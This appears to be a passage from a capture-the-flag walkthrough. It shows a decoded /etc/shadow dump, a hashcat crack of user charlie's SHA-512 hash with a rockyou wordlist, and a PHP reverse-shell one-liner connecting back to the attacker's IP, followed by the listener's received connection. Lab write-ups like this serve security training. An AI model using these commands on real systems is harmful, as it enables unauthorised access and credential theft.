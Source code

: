 > cat b64.txt | base64 --d daemon:_:18380:0:99999:7::: bin:_:18380:0:99999:7::: sys:_:18380:0:99999:7::: sync:_:18380:0:99999:7::: games:_:18380:0:99999:7::: man:_:18380:0:99999:7::: lp:_:18380:0:99999:7::: mail:_:18380:0:99999:7::: news:_:18380:0:99999:7::: uucp:_:18380:0:99999:7::: proxy:_:18380:0:99999:7::: www-data:_:18380:0:99999:7::: backup:_:18380:0:99999:7::: list:_:18380:0:99999:7::: irc:_:18380:0:99999:7::: gnats:_:18380:0:99999:7::: nobody:_:18380:0:99999:7::: systemd-timesync:_:18380:0:99999:7::: systemd-network:_:18380:0:99999:7::: systemd-resolve:_:18380:0:99999:7::: \_apt:_:18380:0:99999:7::: mysql:!:18382:0:99999:7::: tss:_:18382:0:99999:7::: shellinabox:_:18382:0:99999:7::: strongswan:_:18382:0:99999:7::: ntp:_:18382:0:99999:7::: messagebus:_:18382:0:99999:7::: arpwatch:!:18382:0:99999:7::: Debian-exim:!:18382:0:99999:7::: uuidd:_:18382:0:99999:7::: debian-tor:_:18382:0:99999:7::: redsocks:!:18382:0:99999:7::: freerad:_:18382:0:99999:7::: iodine:_:18382:0:99999:7::: tcpdump:_:18382:0:99999:7::: miredo:_:18382:0:99999:7::: dnsmasq:_:18382:0:99999:7::: redis:_:18382:0:99999:7::: usbmux:_:18382:0:99999:7::: rtkit:_:18382:0:99999:7::: sshd:_:18382:0:99999:7::: postgres:_:18382:0:99999:7::: avahi:_:18382:0:99999:7::: stunnel4:!:18382:0:99999:7::: sslh:!:18382:0:99999:7::: nm-openvpn:_:18382:0:99999:7::: nm-openconnect:_:18382:0:99999:7::: pulse:_:18382:0:99999:7::: saned:_:18382:0:99999:7::: inetsim:_:18382:0:99999:7::: colord:_:18382:0:99999:7::: i2psvc:_:18382:0:99999:7::: dradis:_:18382:0:99999:7::: beef-xss:_:18382:0:99999:7::: geoclue:_:18382:0:99999:7::: lightdm:_:18382:0:99999:7::: king-phisher:_:18382:0:99999:7::: systemd-coredump:!!:18396:::::: \_rpc:_:18451:0:99999:7::: statd:_:18451:0:99999:7::: \_gvm:_:18496:0:99999:7::: charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::

\#========================================================

Here we get some useful information

1. User : Charlie
2. Password Hash : $6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/

The hashing used is SHA-512

Using hashcat :: hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt $6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:cn7824

## Password : cn7824

Not working on SSH : There was a login page on the website

Credentials for the website

\#========================================================

There is a input box where we can execute command

Getting a revese shell

php -r '$sock=fsockopen("10.17.5.163",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

Got the connection :: #===================================================== Listening on 0.0.0.0 4444 Connection received on 10.10.229.79 48348 /bin/sh: 0: can't access tty; job control turned off $

Spawning a shell

remember initial recon from nmap

113/tcp open ident? | fingerprint-strings: | DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, LDAPSearchReq, LPDString, NULL, RTSPRequest, SMBProgNeg> |\_ http://localhost/key\_rev\_key <- You will find the key here!!!
